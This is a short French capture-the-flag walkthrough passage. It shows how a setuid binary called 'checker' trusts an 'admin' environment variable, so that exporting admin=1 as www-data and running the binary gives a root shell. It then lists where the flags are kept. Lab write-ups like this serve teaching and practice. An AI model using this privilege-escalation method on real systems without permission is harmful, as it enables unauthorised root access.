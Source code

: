 ```
  return 0;
```
Comme on peux le voir ici:
```
pcVar1 = getenv("admin");
``` 
Il check le contenu de la variable d'environnement **admin**, si elle est vrai, il execute /bin/bash en tant que root (setuid(0))

Je vais donc ajouter la variable admin=1 (donc vrai)
```
www-data@blog:/usr/sbin$ export admin=1
```
Puis j'executer le fichier **checker**
```
www-data@blog:/usr/sbin$ ./checker
root@blog:/usr/sbin#
```
Me voila root !

Le flag user est ici : **/media/usb**
Le flag root est ici : **/root**
